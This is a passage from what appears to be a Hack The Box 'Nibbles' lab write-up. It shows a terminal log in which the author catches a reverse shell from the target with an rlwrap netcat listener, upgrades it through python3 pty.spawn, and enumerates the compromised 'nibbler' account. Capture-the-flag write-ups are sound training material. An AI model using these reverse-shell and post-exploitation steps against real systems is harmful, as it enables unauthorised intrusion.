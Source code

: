 <center>
<img src="https://raw.githubusercontent.com/0xM3M0RY/htb_ctf/main/nibbles/assets/images/10.png" >
</center>

```shell
┌[us-vip-1]─[10.10.16.3][0xM3M0RY㉿kali]─[~]
└╼[★]$ rlwrap nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.10.75] 42948
sh: 0: can't access tty; job control turned off
$ which python
$ which python3
/usr/bin/python3
$ python3 -c "import pty;pty.spawn('/bin/bash')"
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ whoami
<ml/nibbleblog/content/private/plugins/my_image$ whoami
nibbler
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ id
id
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ ifconfig
<ml/nibbleblog/content/private/plugins/my_image$ ifconfig
ens192    Link encap:Ethernet  HWaddr 00:50:56:b9:7f:f0
          inet addr:10.10.10.75  Bcast:10.10.10.255  Mask:255.255.255.0
          inet6 addr: dead:beef::250:56ff:feb9:7ff0/64 Scope:Global
          inet6 addr: fe80::250:56ff:feb9:7ff0/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:1242317 errors:0 dropped:569 overruns:0 frame:0
          TX packets:911019 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:197030818 (197.0 MB)  TX bytes:372532639 (372.5 MB)

lo        Link encap:Local Loopback
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:6143 errors:0 dropped:0 overruns:0 frame:0
          TX packets:6143 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1
          RX bytes:604076 (604.0 KB)  TX bytes:604076 (604.0 KB)
```
